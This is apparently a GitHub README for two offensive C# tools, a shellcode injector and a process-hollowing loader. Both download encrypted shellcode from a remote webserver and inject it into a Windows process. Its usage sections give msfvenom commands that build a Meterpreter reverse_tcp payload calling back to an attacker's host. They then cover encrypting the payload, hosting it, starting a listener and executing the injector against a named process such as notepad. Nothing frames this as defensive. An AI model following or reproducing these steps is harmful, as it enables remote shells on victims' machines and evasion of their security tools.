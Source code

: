 # File: ShellCode-Injection.cs
  
    Download and decrypt a shellcode from a remote webserver, then inject it to a given process name

# Usage
  
    1. Generate the shellcode

          msfvenom -p windows/x64/meterpreter/reverse_tcp --smallest exitfunc=thread lhost=x.x.x.x lport=xxxx -f raw -o shellcode.bin

    2. Encrypt the shellcode

          .\ShellCode_Encryptor.exe shellcode.bin

    3. Host the encrypted shellcode and start the listener

    4. Execute

          .\ShellCode_Injection.exe <shellcode_Url> <process_name eg: notepad>
          
# File: Process_Hollowing.cs

    Download and decrypt a shellcode from a remote webserver, then inject it using Process Hollowing technique
    
# Usage

    1. Generate the shellcode

          msfvenom -p windows/x64/meterpreter/reverse_tcp --smallest exitfunc=thread lhost=x.x.x.x lport=xxxx -f raw -o shellcode.bin

    2. Encrypt the shellcode

          .\ShellCode_Encryptor.exe shellcode.bin

    3. Host the encrypted shellcode and start the listener

    4. Execute

          .\Process_Hollowing.exe <shellcode_Url>
    
